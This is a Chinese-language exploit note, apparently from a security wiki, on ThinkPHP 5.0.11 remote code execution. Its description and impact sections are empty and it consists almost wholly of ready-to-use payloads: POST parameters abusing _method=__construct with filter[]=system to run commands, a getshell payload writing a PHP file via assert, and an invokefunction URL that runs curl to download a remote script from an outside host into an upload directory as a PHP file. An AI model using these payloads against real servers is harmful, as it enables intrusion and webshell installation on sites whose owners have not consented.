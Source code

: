 ```yaml
---
title: Thinkphp 5.0.11
id: zhfly3150
---
```


# Thinkphp 5.0.11

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

post提交

```
http://www.0-sec.org/public/index.php?s=index/index/index `s=whoami&_method=__construct&method&filter[]=system

s=whoami&_method=__construct&method=POST&filter[]=system

s=whoami&_method=__construct&method=GET&filter[]=system

_method=__construct&method=GET&filter[]=system&get[]=whoami

c=system&f=calc&_method=filter` 
```

> getshell

```
POST `s=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)&_method=__construct&method=POST&filter[]=assert` 
```

> 利用远程文件写入

```
http://www.0-sec.org/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=curl https://www.hack.com/xxx.js -o ./upload/xxx.php 
```